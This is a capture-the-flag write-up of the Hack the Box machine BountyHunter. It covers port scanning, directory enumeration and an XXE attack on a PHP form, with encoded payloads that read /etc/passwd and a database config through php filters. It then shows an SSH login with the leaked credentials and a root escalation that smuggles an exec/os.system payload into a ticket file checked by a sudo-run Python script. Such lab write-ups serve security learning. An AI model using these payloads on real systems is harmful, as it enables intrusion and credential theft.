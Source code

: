 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
date = 2021-11-20T15:01:08Z
description = ""
draft = false
thumbnail = "/images/2021/08/bounty.png"
slug = "hack-the-box-bountyhunter"
tags = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
title = "Hack the Box - Bountyhunter"

+++


Welcome! Today we are going to be doing the Hack the Box machine - Bountyhunter. This is listed as an easy Linux machine. Let's see what's in store!

As always, we start with a full `nmap` scan. Here are the resutlts:

```
Nmap scan report for 10.10.11.100
Host is up (0.049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open. Let's see what's being hosted on port 80. When we land on the page, we see a standard landing page. Digging around, we find a `log_submit.php` page. When we fill out the data required, we get the following response.

![](/images/2021/08/image-28.png)

Since this entry point will be a web entry point. We'll do everything going forward inside `Burpsuite`. We check the request and we see that it's coming accross as base64 encoded XML data.

![](/images/2021/08/image-27.png)

![](/images/2021/08/image-29.png)

Before we dig much futher into the web requests, we're going to start some basic enumeration and see what we can find. We know there is a endpoint called `tracker_diRbPr00f314.php`, this would lead us to believe we won't be able to enumerate it.

Command:
`gobuster dir -u http://10.10.11.100 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

This runs but doesn't find much of anything, shocker. Now, back to the original request. We know that `XXE` is a common attack vector, it's possible it's our foothold here.

The above is a malformed `base64` encoding. The `%3D` is URL encoding for `=`. Thus our full data set would be:

`PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjI8L2N3ZT4KCQk8Y3Zzcz4zPC9jdnNzPgoJCTxyZXdhcmQ+NDQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4=`

Giving us the following data being sent:

![](/images/2021/08/image-30.png)

Now we need to craft a PoC. You can read more on [XXE here](https://portswigger.net/web-security/xxe). We'll use the basic example they had listed for our PoC. Here is our payload:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

Once we have our payload created, we need to convert it to base64. Then we need to convert that base64 to URL encoding, since it will have some `+` signs in it. Overall our request looks like this:

```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
Content-Length: 305
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.11.100
Referer: http://10.10.11.100/log_submit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCSAgPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2bIF0%2bCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bMTwvdGl0bGU%2bCgkJPGN3ZT4yPC9jd2U%2bCgkJPGN2c3M%2bMzwvY3Zzcz4KCQk8cmV3YXJkPiZ4eGU7PC9yZXdhcmQ%2bCgkJPC9idWdyZXBvcnQ%2b
```

You can see we are only trying to view the `/etc/passwd` file as our PoC. We put it into `Burp` and see what we get.

![](/images/2021/08/XXE.gif)

It works! Perfect! Now we need to leverage this to obtain a foothold. Based on the above data, we know the user we are after - `development`. After attempting to read `id_rsa` and `db.php` files with the traditional method of `file:///`, we need to leverage something different. We need to use a `php filter` to obtain access to the files we want.

Syntax:
`"php://filter/convert.base64-encode/resource=/var/www/html/db.php"`

This will be the payload portion of our `XXE`. Here's our new `XXE` payload.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
              <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> 
                 ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

After we convert this to base64 and URL encode it, we get a valid response:

![](/images/2021/08/image-32.png)

A base64 encoded string. When we decode it, we get the following:

![](/images/2021/08/image-33.png)

A set of credentials! Finally! Now, we see a `testuser` account but I'm willing to bet, that these credentials will also work for the user `development` as well. Let's try to leverage them to `SSH`.

Sure enough, they do!

![](/images/2021/08/image-34.png)

We are able to log in and get the `user.txt` flag! Once we're in, we check `sudo -l` to see if there are any easy hints for priv esc.

![](/images/2021/08/image-36.png)

Sure enough, we have access to `ticketValidator.py`. When we view the file, we see that there are some basic requirements to the file we want to read.

* It must be a `.md` file
* It must start with # Skytrain Inc
* The second line must start with ## Ticket to
* The third line must be __Ticket Code __ 
* The fourth line can be the code we want to execute. It has to start with `**`. 
* The code checks for `% 7 == 4`. That number is 102 or 4.
* Then it will split the file along a `+` then run the code AFTER that split.  

So we'll create a file called `rootme.md` and add our first three lines.

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
```

Now we can give it our malicious code. We can drop right to a r[oot shell via python](https://gtfobins.github.io/gtfobins/python/). Remember, we still need to use the exec() function in order to get execution.

Here's our final code:

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
**102+6969 and exec("import os;os.system('cat /root/root.txt')")
```

Then we run our script.

Command:
`sudo python3.8 /opt/skytrain_inc/ticketValidator.py`

![](/images/2021/08/bountyroot.gif)

There we have it, the `root.txt` flag!



